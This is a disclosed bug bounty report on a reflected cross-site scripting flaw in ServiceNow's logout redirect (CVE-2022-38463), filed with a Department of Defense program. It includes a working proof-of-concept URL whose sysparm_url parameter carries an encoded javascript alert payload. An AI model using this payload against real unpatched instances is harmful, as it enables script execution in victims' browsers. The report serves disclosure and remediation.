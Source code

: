 # XSS in ServiceNow logout https://████:443

## Report Details
- **Report ID**: 1699855
- **URL**: https://hackerone.com/reports/1699855
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-09-14T10:48:09.109Z
- **Disclosed**: 2023-05-15T15:14:43.122Z

## Reporter
- **Username**: colemanj
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
XSS in ServiceNow logout 
https://██████:443/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)
## References
https://nvd.nist.gov/vuln/detail/CVE-2022-38463

## Impact

Unauthenticated remote attacker can execute code in user's browser context.  User must click on malicious link

## System Host(s)
███████

## Affected Product(s) and Version(s)
Servicenow prior to SanDiego SP6

## CVE Numbers
CVE-2022-38463

## Steps to Reproduce
Click on https://█████:443/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)

## Suggested Mitigation/Remediation Actions
Upgrade to patched version of ServiceNow



## Attachments
No attachments

